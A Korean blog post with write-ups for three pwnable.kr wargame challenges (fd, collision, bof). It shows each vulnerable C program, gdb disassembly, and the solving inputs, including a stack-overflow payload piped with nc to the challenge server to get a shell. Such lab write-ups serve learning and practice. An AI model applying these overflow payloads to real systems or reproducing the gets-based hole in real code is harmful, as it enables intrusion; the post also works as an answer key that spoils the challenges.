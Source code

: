 ```yaml
---
title: "[pwnable] fd, collision, bof"
date: 2024-11-30 22:56:00 +0900
categories: [pwnable]
tags: [pwnable]
description: pwnable, system hack
---
```


# [pwnable] fd

```shell
$ cat fd.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

커맨드라인 argument로 들어온 숫자에서 0x1234를 빼서 fd로 지정한다. \
기본적으로 프로세스에는 0(stdin), 1(stdout), 2(stderr)번 fd가 할당되기 때문에
[4660 or 4661 or 4662]를 입력하고, LETMEWIN을 입력하면 flag를 얻을 수 있다.

### 정답

```shell
./fd 4660
LETMEWIN
```

<br/>

# [pwnable] collision

```shell
$ cat col.c
```

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```

hashcode가 4바이트이고, 총 20바이트의 문자열을 입력받아서 이를 4바이트씩 쪼갠 다음 모두 더해서 hashcode와 같게끔 만드는 문제이다.
<br/>

입력 문자열을 잘 조합하여 입력하면 된다는 것을 알았지만, \
(예: 6c5cec8 \* 4 + 6c5cecc)\
6c5cec8 혹은 6c5cecc를 커맨드라인으로 입력하는 방법을 생각하지 못하였다.

구글링 결과 파이썬 -c 옵션을 통해 해결할 수 있었다.

그리고 little endian 방식으로 작성해줘야한다.
hashcode 가장 앞쪽의 21을 만들기 위해

```
\!\0\0\0
```

을 출력해보니 30303021이 나왔다.

### 정답

```shell
$ ./col `python -c 'print ("\xc8\xce\xc5\x06"*4+"\xcc\xce\xc5\x06")'`
```

<br/>

# [pwnable] bof

bof는 buffer overflow를 뜻한다.

우선 bof 바이너리를 실행해보니, i386 아키텍쳐 타겟의 바이너리인 것으로 보였다.

```shell
$ ./bof
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

gdb로 디스어셈블링을 해 보았다.

```shell
$ gdb ./bof
```

타겟 아키텍처 및 어셈블리어 형식을 지정하는 법은 다음과 같았다.

```shell
$ gdb ./bof
set architecture i386
set disassembly-flavor intel
```

```python
disas func

   0x0000062c <+0>:		push   ebp
   0x0000062d <+1>:		mov    ebp,esp
   0x0000062f <+3>:		sub    esp,0x48
   0x00000632 <+6>:		mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave
   0x00000689 <+93>:	ret
```

첫번째 call은 printf를 call하는 것이고, 두번째 call을 보면,

```python
0x00000649 <+29>:	lea    eax,[ebp-0x2c]
0x0000064c <+32>:	mov    DWORD PTR [esp],eax
0x0000064f <+35>:	call   0x650 <func+36>
```

[ebp-0x2c]의 주소를 esp(다음 호출될 함수의 첫번째 인자)로 넘긴 다음, 함수(gets)를 호출한다.
따라서 [ebp-0x2c]에 overflowme가 위치한 것을 확인할 수 있다. \
<br/>

```python
0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

위 행에서 key가 [ebp+0x8] 의 주소에 저장된 것을 알 수 있다.

[ebp-0x2c]와 [ebp+0x8]의 차이는 0x34, 52이므로 gets에서 52byte 만큼의 더미 데이터로 스택을 덮어씌우고 그 다음 0xcafebabe를 넣어주면 sh을 실행할 수 있다.

### 정답
```
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
```
혹은
```
(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 52 + b"\xbe\xba\xfe\xca")';cat) | nc pwnable.kr 9000
```

